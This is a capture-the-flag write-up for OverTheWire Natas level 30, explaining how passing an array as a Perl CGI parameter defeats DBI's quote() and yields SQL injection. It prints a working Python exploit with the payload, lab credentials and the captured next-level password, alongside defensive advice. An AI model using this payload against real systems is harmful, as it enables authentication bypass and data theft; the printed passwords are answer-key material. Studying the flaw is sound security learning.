


# Natas Level 30 → 31

**Vulnerability:** Perl SQL Injection via Array-Based Parameter Type Confusion
**Difficulty:** Hard
**Tools Used:** Browser, Source Code Review, Python Requests
**OWASP Category:** A03:2021 – Injection
**Attack Class:** SQL Injection / Type Confusion

---

## What the level gives you

The application presents a traditional username and password login form. Source code is provided, allowing the authentication logic to be reviewed directly.

At first glance the application appears secure because user input is passed through Perl DBI's `quote()` function before being used in an SQL query. Normally this would prevent classic SQL injection attacks.

The challenge is to understand why the protection fails and leverage the flaw to retrieve the next level password.

---

## Vulnerability theory

This challenge demonstrates a subtle type confusion issue caused by Perl CGI parameter handling. The developer assumes that every parameter received from the form will be a single scalar string.

However, Perl CGI allows multiple values to be supplied for the same parameter name. When this occurs, `param()` may return an array rather than a single string.

The database layer expects a string and attempts to quote the supplied value. When an array is passed instead, the resulting behavior differs from what the developer intended, allowing attacker-controlled SQL fragments to bypass the protection mechanism.

The vulnerability is not caused by missing escaping but by incorrect assumptions about data types. The attack primitive provided is SQL injection through parameter type confusion.

---

## Source Code Analysis

```perl
if ('POST' eq request_method && param('username') && param('password')){
    my $dbh = DBI->connect(
        "DBI:mysql:natas30",
        "natas30",
        "<censored>",
        {'RaiseError' => 1}
    );

    my $query="Select * FROM users where username ="
              .$dbh->quote(param('username'))
              ." and password ="
              .$dbh->quote(param('password'));

    my $sth = $dbh->prepare($query);
    $sth->execute();

    my $ver = $sth->fetch();

    if ($ver){
        print "win!<br>";
        print "here is your result:<br>";
        print @$ver;
    }
}
```

### Vulnerable Logic

```perl
$dbh->quote(param('password'))
```

The developer assumes `param('password')` always returns a single string.

Under normal circumstances:

```sql
SELECT * FROM users
WHERE username='admin'
AND password='password'
```

However, Perl CGI allows multiple values for the same parameter. By submitting an array instead of a scalar value, the assumptions made by the quoting function break down and attacker-controlled content reaches the SQL query.

The vulnerability is therefore caused by type confusion rather than traditional string concatenation alone.

---

## Approach

The source code initially appeared resistant to SQL injection because both username and password values were passed through `quote()` before being inserted into the query.

Rather than focusing on classic SQL payloads, I examined how Perl CGI handled request parameters. Researching the behavior of `param()` revealed that parameters can be submitted as arrays rather than simple strings.

This changed the attack surface completely. Instead of trying to bypass quoting directly, I crafted a request that supplied multiple values for the password field. The resulting type confusion allowed the SQL query to evaluate differently than intended and bypass authentication.

Once the authentication check succeeded, the application returned the credentials required for the next level.

---

## Exploitation

### Python Exploit Script

```python
import requests
from requests.auth import HTTPBasicAuth

basicAuth = HTTPBasicAuth(
    'natas30',
    'WQhx1BvcmP9irs2MP9tRnLsNaDI76YrH'
)

url = "http://natas30.natas.labs.overthewire.org/index.pl"

payload = {
    "username": "natas28",
    "password": ["'whatever' or 1", 4]
}

response = requests.post(
    url,
    data=payload,
    auth=basicAuth,
    verify=False
)

print(response.text)
```

### Result

The application returned:

```text
win!
here is your result:
natas31m7bFJAHpJmSYgQWweqRE2qVBuM1RNq0Y
```

### Password Retrieved

```text
natas31m7bFJAHpJmSYgQWweqRE2qVBuM1RNq0Y
```

---

## Screenshot

### Source Code Review



### Successful Exploitation



---

## Real-world relevance

This vulnerability belongs to OWASP A03:2021 – Injection and highlights a common problem in web application security: developers frequently validate syntax but make incorrect assumptions about data structures.

Type confusion vulnerabilities have appeared in multiple frameworks and languages where arrays, objects, or nested parameters are unexpectedly accepted by backend code. Such flaws often bypass filters, authentication mechanisms, and security controls that were designed only for scalar values.

In real-world penetration testing, parameter pollution and type confusion are common techniques used to bypass otherwise effective input validation mechanisms.

---

## Defender's perspective

Input validation must verify both content and type. Applications should reject unexpected parameter structures before business logic is executed.

Developers should enforce strict schemas for request data and ensure each parameter matches the expected type before passing it into database functions. Parameterized queries should also be used instead of constructing SQL statements through string concatenation.

From a detection perspective, web application firewalls and logging systems should flag requests containing repeated parameter names or unusual parameter structures because they frequently indicate parameter pollution or type confusion attacks.

---

## What I'd do differently

I would intercept the request in Burp Suite and experiment with parameter pollution techniques directly before moving to automation. This would make it easier to observe how the application processes duplicate parameter values.